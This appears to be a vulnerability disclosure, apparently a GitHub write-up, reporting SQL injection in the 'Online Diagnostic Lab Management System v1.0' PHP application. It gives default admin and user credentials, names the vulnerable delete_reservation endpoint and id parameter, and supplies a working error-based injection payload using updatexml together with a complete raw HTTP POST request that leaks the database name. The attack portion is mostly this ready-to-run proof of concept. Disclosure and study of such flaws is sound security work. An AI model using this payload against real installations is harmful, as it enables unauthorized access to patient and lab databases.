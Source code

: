 # Online Diagnostic Lab Management System v1.0 by oretnom23 has SQL injection

BUG_Author: Hackerwang

Login account: admin/admin123 (Super Admin account)

Login account: cblake@sample.com/cblake123 (General account)

vendors: https://www.sourcecodester.com/php/15129/online-diagnostic-lab-management-system-php-free-source-code.html

The program is built using the xmapp-php8.1 version

You need to create a reservation_list table in the database first. The sql statement is as follows

```sql
CREATE TABLE `reservation_list` (
  `id` int(11) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;
COMMIT;
```

Vulnerability File: /odlms/classes/Master.php?f=delete_reservation

Vulnerability location: /odlms/classes/Master.php?f=delete_reservation,id

dbname=odlms_db,length=8

[+] Payload: id=4'  and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /odlms/classes/Master.php?f=delete_reservation HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/odlms/admin/?page=appointments
Content-Length: 66
Cookie: PHPSESSID=5g4g4dffu1bkrg9jm7nr42ori2
Connection: close

id=4'  and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/191264935-37a0c4df-12ec-4ef9-b026-f46a37955180.png)
